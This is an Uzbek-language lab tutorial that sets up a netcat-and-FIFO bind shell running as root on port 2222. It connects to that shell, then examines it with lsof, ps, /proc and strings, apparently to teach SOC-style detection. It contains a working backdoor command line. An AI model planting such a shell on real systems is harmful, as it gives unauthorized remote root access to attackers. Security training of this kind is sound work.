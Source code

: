 ## Linux CLI (backdoor)

Assalom Alaykum bugungi Laboratoriya ishimizda Linux CLI orqali Backdoorlar xosil qilishni ko'rib chiqamiz.Qani kettik!!!

Backdoor nima ekanligini va u nima qilishini yaxshiroq tushunish uchun biz ko'p turli xil asosiy buyruqlardan foydalanamiz.



Ushbu laboratoriya uchun biz 3 ta turli linux terminallarini ishga tushiramiz.

***Birinchisi, biz orqa eshikni boshqaradigan joy bo'ladi.***
***Ikkinchisi, biz unga ulanadigan joy bo'ladi.***
***Uchinchisi, biz tahlil qiladigan oyna yan'ni,Processlarni ko'rish uchun.***



**Terminalni administrator sifatida ochishdan boshlaymiz.**


Linux terminalingizda quyidagi buyruqni bajaring:
```python
sudo su -
```
Bu bizni root ./ snapga o'tkazadi. Biz buni bajardik,biz root sifatida ishlaydigan backdoor va tizimdagi boshqa foydalanuvchi hisobidan ulanishni boshlaymiz.
Keyinchalik biz `fifo` orqa quvurini yaratishimiz kerak.Birinchi Terminalga:

```python
mknod backpipe p
```

Keyin,backpipe make qilishni boshlaylik:

`/bin/bash 0<backpipe | nc -l 2222 1>backpipe`

Yuqoridagi buyruqda biz barcha ma'lumotlarni backpipe orqali, so'ngra bash seansiga yo'naltiradigan netcat tinglovchisini yaratmoqdamiz. Keyin u bash sessiyasining natijasini oladi va uni yana netcat tinglovchisiga qo'yadi.


Asosan, bu bizning Linux tizimimizning 2222-portida backdoor tinglanilishni yaratadi.

Endi boshqa terminalini ochamiz. Bu biz yuqorida yaratilgan orqa eshik bilan bog'laydigan terminal bo'ladi.

Endi biz Linux tizimimizning IP manzilini bilishimiz kerak bo'ladi:
```python
ifconfig
```

Endi ulanamiz:

```python
 nc 172.30.249.49 2222
```

Eslatma!!! Albatta,sizning IP manzilingiz boshqacha bo'ladi!!!

Keling, ba'zi buyruqlarni yozamiz va u ishlayotganiga ishonch hosil qilamiz

```bash
ls
```
```bash
whoami
```

Ko'rib turganingizdek, biz root sifatida oddiy Linux backdooriga ulanganmiz. Shuningdek, orqa eshikka muvaffaqiyatli ulanganimiz haqida xabar yo'qligiga e'tibor bering. Bu shunchaki kursorimizni ekranning chap tomoniga qaytaradi.

Keling, yana bir terminalini ochamiz va tahlil qilishni boshlaymiz. Bu shuni anglatadiki, bizda orqa eshikni yaratgan joy bor, ikkinchisi unga ulangan va uchinchisi tahlil uchun bo'ladi.

Linux terminalingizda quyidagi buyruqni bajaring
```python
sudo su -
```

Bu bizni root file qatoriga olib boradi. Biz superuser bo'ldik, chunki tarmoq ulanishlari va tizim bo'ylab ma'lumotlarni qayta ishlash rootga kirishni talab qiladi. Asosan, root yoki administrator huquqlarisiz SOC pro sifatida ishingizni qilish juda qiyin.

Keling, `lsof` bilan tarmoq ulanishlarini ko'rib chiqaylik. `lsof` dan foydalanganda biz ochiq fayllarni ko'rib chiqamiz. `-i` bayrog'idan foydalanganda biz ochiq Internet ulanishlarini ko'rib chiqamiz. Biz `-P` bayrog'ini ishlatganimizda, biz `lsof` -ga foydalanilayotgan portlarda xizmat nima ekanligini taxmin qilmaslikni ko'rsatamiz. Faqat port raqami bilan.

```python
lsof -i -P
```


Endi netcat jarayon identifikatorini ko'rib chiqamiz. Buni kichik harfli `p` kaliti bilan qilishimiz mumkin. Bu bizga sanab o'tilgan jarayon identifikatori bilan bog'liq barcha ochiq fayllarni beradi.

```python
lsof -p 131
```

Keling, to'liq jarayonlarni ko'rib chiqaylik. Buni `ps` buyrug'i bilan qilamiz. Shuningdek, biz yordamchi kalitlarni qo'shamiz. Bu barcha jarayonlar uchun, `u` foydalanuvchi tomonidan tartiblangan va `x` uchun teletayp terminali yordamida jarayonlarni o'z ichiga oladi.

```python
ps aux
```

Keling, ushbu pid uchun kataloglarni proc katalogiga o'zgartiraylik. Esingizda bo'lsin, proc diskda mavjud bo'lmagan katalogdir. Bu bizga turli jarayonlar bilan bog'liq ma'lumotlarni bevosita ko'rish imkonini beradi. Bu juda foydali, chunki u hozirda shubhali tizimda ishlayotgan jarayonning xotirasini chuqurlashtirishga imkon beradi.

```bash
cd /proc/[pid]
```

Biz bu yerda bir nechta turli-xil kataloglarni ko'rishimiz mumkin:

```python
ls
```

Eslatma!!! Sizning PID ingiz boshqacha bo'ladi!!!

Ushbu katalogdagi exe-da satrlarni ishga tushirishimiz mumkin. Bu juda va juda foydali, chunki dasturlar yaratilganda foydalanish ma'lumotlari, tizim kutubxonalari haqida eslatmalar va mumkin bo'lgan kod sharhlari bo'lishi mumkin. Biz har doim dastur nima qilayotganini aniqlash uchun foydalanamiz.

```bash
strings ./exe
```

Biz bunda,netcat uchun haqiqiy foydalanish ma'lumotlarini ko'rishimiz mumkin. Biz uni to'g'ridan-to'g'ri xotiradan olib tashladik!



